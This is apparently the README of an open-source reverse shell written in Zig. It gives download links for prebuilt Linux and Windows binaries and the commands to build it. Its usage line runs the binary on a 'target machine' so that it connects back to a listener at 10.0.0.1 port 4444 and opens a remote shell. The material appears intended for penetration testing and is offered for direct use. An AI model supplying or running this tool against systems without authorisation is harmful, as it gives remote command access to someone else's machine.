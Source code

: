 # Zig Reverse Shell 

## Download

Get the binary for your target platform.

Linux: [Download](https://github.com/hideckies/zig-revshell/releases/download/0.0.3/revshell-linux-x86_64)  
Windows: [Download](https://github.com/hideckies/zig-revshell/releases/download/0.0.3/revshell-windows-x86_64.exe)

<br />

## Build from Source

Clone the repository and build for your target platform:

```sh
# Linux target
zig build -Dtarget=x86_64-linux

# Windows target
zig build -Dtarget=x86_64-windows
```

After that, the executable is generated under `zig-out/bin` directory.

<br />

## Usage

Execute the binary in your target machine:

```sh
./revshell 10.0.0.1 4444
```
